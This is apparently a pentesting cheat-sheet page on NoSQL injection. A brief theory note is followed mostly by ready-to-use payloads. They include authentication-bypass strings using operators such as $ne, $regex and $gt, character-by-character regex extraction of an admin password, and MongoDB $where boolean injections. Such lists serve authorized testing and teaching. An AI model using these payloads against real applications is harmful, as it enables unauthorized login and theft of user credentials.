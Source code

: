 # NoSQL Injection

## Theory

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Practice

#### Authentication Bypass

Using not equal ($ne) or greater ($gt) we can try to bypass authentication

{% tabs %}
{% tab title="URL" %}
```
username[$ne]=toto&password[$ne]=toto          #Not Equal
username[$regex]=.*&password[$regex]=.*        #Regex
username[$exists]=true&password[$exists]=true  #If Exist
username[$ne]=admin&password[$gt]=0            #Greater
```
{% endtab %}

{% tab title="JSON" %}
```
{"username": {"$ne": null}, "password": {"$ne": null} }             #Not Equal
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }           #Not Equal
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }   #greater
```
{% endtab %}
{% endtabs %}

#### Extract data

We can use regex to find the lenght of a value

```
username[$regex]=.{25}&pass[$ne]=1
```

We can use regex to extract informations.

```
username[$eq]=admin&password[$regex]=^p
username[$eq]=admin&password[$regex]=^pa
username[$eq]=admin&password[$regex]=^pas

username[$ne]=toto&password[$regex]=^p
username[$ne]=toto&password[$regex]=^pa
username[$ne]=toto&password[$regex]=^pas
```

We can use `$nin` (not in) if you don't want to match with some values.

```
#<Matches non of the values of the array> (not test and not admin)
username[$nin][admin]=admin&username[$nin][test]=test&password[$regex]=^p
```

We can use regex to find the lenght of a value

```
{"username": {"$eq": "admin"}, "password": {"$regex": ".{25}" }}
```

We can use regex to extract informations.

```
{"username": {"$eq": "admin"}, "password": {"$regex": "^p" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pa" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pas" }}
```

We can use `$nin` (not in) if you don't want to match with some values.

```
#<Matches non of the values of the array> (not test and not admin)
{"username":{"$nin":["admin", "test"]}, "username":{"$regex": "^user" } ,"password":{"$ne":"1"}} 
```

#### &#x20;MangoDB Injection

{% tabs %}
{% tab title="Payloads" %}
You may try to make boolean based injection on MongoDB with following payloads

```
, $where: '1 == 1'
$where: '1 == 1'
' || 1==1//
' || 1==1%00
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#extract-length-information" %}

